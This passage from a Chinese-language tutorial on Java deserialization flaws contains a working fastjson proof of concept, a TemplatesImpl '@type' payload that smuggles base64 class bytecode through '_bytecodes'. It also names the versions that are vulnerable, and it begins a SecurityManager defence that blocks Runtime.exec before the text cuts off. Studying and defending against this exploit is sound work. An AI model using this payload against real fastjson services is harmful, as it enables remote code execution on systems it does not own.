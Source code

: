 ```java
public class POC {

    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());

    }

    public static void  test_autoTypeDeny() throws Exception {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        final String evilClassPath = System.getProperty("user.dir") + "/target/classes/person/Test.class";
        String evilCode = readClass(evilClassPath);
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'a.b',\"_outputProperties\":{ }," +
                "\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n";
        System.out.println(text1);

        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        //assertEquals(Model.class, obj.getClass());
    }
    public static void main(String args[]){
        try {
            test_autoTypeDeny();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
在这个程序验证代码中，最核心的部分是`_bytecodes`，它是要执行的代码，`@type`是指定的解析类，fastjson会根据指定类去反序列化得到该类的实例，在默认情况下，fastjson只会反序列化公开的属性和域，而`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`中`_bytecodes`却是私有属性，`_name`也是私有域，所以在`parseObject`的时候需要设置`Feature.SupportNonPublicField`，这样`_bytecodes`字段才会被反序列化。<br />`_tfactory`这个字段在`TemplatesImpl`既没有`get`方法也没有`set`方法，所以是设置不了的，只能依赖于jdk的实现，某些版本中在`defineTransletClasses()`用到会引用`_tfactory`属性导致异常退出。<br />如果使用的jdk版本是1.7，并且fastjson <= 1.2.24，基本会执行成功，如果是高版本的，可能会报错！<br />详细分析请移步：[http://blog.nsfocus.net/fastjson-remote-deserialization-program-validation-analysis/](http://blog.nsfocus.net/fastjson-remote-deserialization-program-validation-analysis/)<br />Jackson 的反序列化漏洞也与之类似。
<a name="UPvAc"></a>
### 三、如何防范
从上面的案例看，java 的序列化和反序列化，单独使用的并没有啥毛病，核心问题也都不是反序列化，但都是因为反序列化导致了恶意代码被执行了，尤其是两个看似安全的组件，如果在同一系统中交叉使用，也能会带来一定安全问题。
<a name="C7K1E"></a>
#### 3.1、禁止 JVM 执行外部命令 `Runtime.exec`
从上面的代码中，不难发现，恶意代码最终都是通过`Runtime.exec`这个方法得到执行，因此可以从 JVM 层面禁止外部命令的执行。<br />通过扩展 SecurityManager 可以实现：
```java
public class SecurityManagerTest {

    public static void main(String[] args) {
        SecurityManager originalSecurityManager = System.getSecurityManager();
        if (originalSecurityManager == null) {
            // 创建自己的SecurityManager
            SecurityManager sm = new SecurityManager() {
                private void check(Permission perm) {
                    // 禁止exec
```